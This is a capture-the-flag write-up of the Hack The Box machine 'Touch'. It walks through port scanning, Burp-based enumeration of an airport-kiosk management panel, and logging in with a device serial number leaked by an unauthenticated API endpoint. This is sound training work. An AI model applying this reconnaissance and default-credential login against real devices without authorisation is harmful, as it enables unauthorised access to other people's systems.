# HTB Touch — Write-up in English

**Machine:** Touch, Hack The Box  
**Difficulty:** Easy  
**Operating system:** Windows  
**Continuity note:** On a previous machine (Layover), a name and a booking confirmation code were obtained (Jenny Crawford / KS7X2M). That information was indeed needed on this machine: the kiosk check-in application asks for the surname and booking reference as the first step of the check-in process, before reaching the travel-document verification screen. HTB often chains clues of this kind between machines within the same themed storyline.

In this write-up, I explain how I solved **Touch**, step by step and in the same order in which I progressed. I include both the tests that worked and the attempts that led nowhere, because they are also part of the process: they help explain why I changed strategies.

The goal is for the write-up to be followable without having every tool memorized. Whenever an important technical concept comes up, I explain what it is used for and what conclusion I drew from the result.

To inspect the web application on port 8443, I used **Burp Suite**. In short, Burp lets you view the requests made by the browser, repeat them, and change details such as cookies or paths. This was especially useful for checking which endpoints required a login and which ones responded without one.

---
## 1. Initial reconnaissance

The first step is to identify which services the machine exposes. For this, we use Nmap, the standard port-scanning tool.

```
nmap -sC -sV 10.129.160.249
```

The `-sV` option attempts to identify the software version on each port; `-sC` runs a set of basic reconnaissance scripts. The result is as follows:

```
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  -> redirects to /login
```



Of the four ports, 135 (RPC) and 3389 (RDP, Windows Remote Desktop) are common services on any Windows machine. Port 5985 corresponds to WinRM, Windows' remote administration mechanism through PowerShell. Port 8443 hosts a custom web application that redirects to `/login`: it is the only one of the four that is not a generic Windows service, so it becomes the main focus of the analysis.

A scan of all TCP ports (`-p- --min-rate 1000`, to speed up the full sweep) confirms that there are no other open ports:

```
135/tcp  open  msrpc
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8443/tcp open  https-alt
```



A targeted scan of port 8443 using the `http-title` and `http-headers` scripts displays the response headers:

```
Location: /login
Server: Microsoft-HTTPAPI/2.0
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, PUT, OPTIONS
```



The `Access-Control-Allow-Origin: *` header relates to CORS (Cross-Origin Resource Sharing) and allows pages from any origin to make requests to this API. It is not a vulnerability by itself, but it often indicates that the API is intended to be consumed by another application, something that is confirmed later.

The `http-enum` script, which tests common paths such as `/admin` or `/backup`, finds nothing else:

```
nmap -p8443 --script http-enum 10.129.160.249
```



A subsequent attempt to check the TLS certificate on port 8443 using `--script ssl-cert,ssl-enum-ciphers` also provides no information, since the service does not use TLS despite running on a port conventionally associated with HTTPS. Several `curl` connection attempts fail with the same TLS negotiation error, confirming that port 8443 speaks plain HTTP rather than HTTPS.

---
## 2. Login panel enumeration

I visit `http://10.129.160.249:8443/login` in a browser configured to route traffic through Burp Suite (Proxy → Intercept). The page belongs to a panel called **Nexion DeviceHub**.



With Burp capturing requests, I try an initial login using the password `admin`, and also inspect the card-based authentication button (“Scan Badge”). The requests captured under Proxy → HTTP history are:

```
GET  /login             → 200
POST /login             → attempt with "admin", invalid-password response
POST /login/badge       → {"success":false,"error":"No badge detected"}
```





The information gathered identifies the web application as Nexion DeviceHub and records the first interactions with its endpoints. During testing, `GET` and `POST` requests are made to `/login`, as well as a `POST` request to `/login/badge`. This record provides a reference for continuing to investigate the authentication process and the resources exposed by the application.


In Burp Suite, I inspect the `POST` request sent to `/login` and the server response. The page's code contains a hint about the default password, which corresponds to the device serial number. I also observe the JavaScript function `scanBadge()`, which sends a `POST` request to `/login/badge` to start reading a badge. These elements reveal two authentication paths worth investigating.



I select the `POST /login/badge` request in Burp Suite and send it to Repeater to inspect it in more detail and check how the application responds to an attempt to use badge-based authentication.


After sending the `POST /login/badge` request from Repeater, the application responds with `200 OK`, but indicates that no badge was detected (`"No badge detected"`). This shows that the endpoint is responding correctly to the HTTP request, although badge-based authentication is not completed.

The HTML in the response to `GET /login` contains an explicit hint:

> *"The default password is the device serial number included in your DeviceHub packaging."*

In other words, the panel's default password is the physical device's serial number. This is a common design pattern in IoT systems (routers, cameras, network printers), where an identifier from the hardware itself is used as the initial password, on the assumption that a remote attacker would not know it. From this point on, the goal is to locate that serial number somewhere else in the application.

The login form only asks for a password and has no username field. The “Scan Badge” button runs `fetch('/login/badge',{method:'POST'})` in the browser, sending no parameters: it simply asks the server to check whether a physical badge is present in the reader. Since I do not have access to that reader, this path is ruled out for the time being.

Reviewing the full body of the `GET /login` response in Burp confirms that no external JavaScript file is loaded: all the code is included directly in the page, and the only paths mentioned in that code are:

```
POST /login
POST /login/badge
GET  /favicon.svg
GET  /css/style.css
```


Burp's site map and history also record the public paths observed during this phase; the next three screenshots are from the initial reconnaissance, before authentication.






This Burp view serves as a record of the paths and requests observed so far. It helps avoid repeating tests and distinguish what was seen before and after authentication.

### 2.1 Checking HTTP methods and discovering the full CSS

First, I check Nmap's output for HTTP methods and headers. Then I test `OPTIONS /` and `OPTIONS /login` in Burp Repeater; both requests return `204 No Content`. Finally, I request `GET /css/style.css`, a resource the browser loads automatically and that is rarely inspected manually.





The response is `200 OK` with the application's entire stylesheet, not just the login page's CSS. It contains classes such as `sidebar`, `sidebar__nav`, `topbar`, `cards`, `info-table`, `log-box`, `success`/`danger` buttons, and `online`/`offline` states. This confirms that a complete administration panel exists behind the login, although it is not accessible yet: the CSS contains no sensitive data, but it reveals the structure of the hidden interface.

### 2.2 Discovering the API

Based on the structure revealed by the CSS, I test several candidate files and paths in Burp Repeater. Requests to `/robots.txt`, `/sitemap.xml`, `/manifest.json`, `/dashboard`, `/device`, `/devices`, and `/logs` redirect to `/login`, which is consistent with a session check. The screenshots show the specific requests, all following the same pattern (`302 Found`, `Location: /login`):















A redirect to `/login` indicates that the page cannot be accessed directly at this point; by itself, it does not prove that the path does not exist.

The `/api` path behaves differently:

```
GET /api

HTTP/1.1 403 Forbidden
Content-Type: application/json
{"error":"Authentication required"}
```




I expand the checks to related API paths and JavaScript files. `/api/login`, `/api/device`, `/api/devices`, `/api/config`, `/api/logs`, `/js/app.js`, and `/js/main.js` return redirects to `/login`, not a 403; these tests reveal no additional data.















A `403` differs from a redirect, but by itself it does not prove that a separate authentication mechanism exists or that `/api` uses a different architecture. What can be said is that `/api` and `/api/` are handled differently from the other tested API subpaths, and that it is worth continuing to enumerate related endpoints.

### 2.3 Locating the serial number without authentication

Continuing the enumeration, I find `GET /api/status`, which returns technical information about the device without requiring a session cookie:

```
Device:   Nexion DeviceHub DH-100
Serial:   NX-DH-2024-B7042
Firmware: 1.4.2
Status:   online
```


This finding completes the login clue: the page said that the default password is the serial number, and `/api/status` exposes it without authentication. I try `NX-DH-2024-B7042` as the panel password.

---
## 3. Accessing the DeviceHub panel

I log in with the serial number through the browser (with Burp intercepting the request), and the login succeeds:

```
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: nxsession=...
```



The `302` code indicates a successful redirect after login, and the response includes a session cookie (`nxsession`) that the browser will send with each subsequent request to maintain authentication. From this point on, I repeat all authenticated requests in Burp Repeater by adding the captured `Cookie: nxsession=...` header.

The dashboard shows two additional peripheral devices:

```
Passport Scanner — Nexion DocReader SR-4200, serial NX-SR-2024-0042
Boarding Pass Printer — Nexion TP-820, serial NX-TP-2024-0042
```

and confirms the panel paths: `/dashboard`, `/scanner`, `/printer`, `/logs`, `/settings`, `/logout`. The panel is identified as “Gate B7, Kiosk #042”, confirming that it manages the hardware of an airport check-in kiosk.

